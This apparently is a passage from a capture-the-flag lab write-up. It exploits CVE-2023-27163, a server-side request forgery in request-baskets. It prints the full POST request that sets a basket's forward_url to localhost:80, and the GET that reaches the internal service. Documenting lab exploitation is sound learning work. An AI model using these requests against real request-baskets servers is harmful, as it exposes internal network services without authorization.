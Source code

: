# CVE-2023-27163

After a quick google search it revealed the version of request-baskets hosted was vulnerable to SSRF. It may be possible to take advantage of this to access port 80 to see what its hosting.

Source: https://nvd.nist.gov/vuln/detail/CVE-2023-27163

request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component `/api/baskets/{name}`. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.

# Exploiting requests-baskets

Below request was used to setup a basket which points to `localhost:80`. When the basket URL is accessed it should take advantage of the SSRF vulnerability.

```
POST /api/baskets/6d127oo HTTP/1.1
Host: 10.129.164.5:55555
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 149

{
    "forward_url":"http://localhost:80",
    "proxy_response": true,
    "insecure_tls": false,
    "expand_path": true,
    "capacity": 250
}
```

```
GET /6d127oo HTTP/1.1
Host: 10.129.164.5:55555
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

# Discovering Mailtrail - Port 80
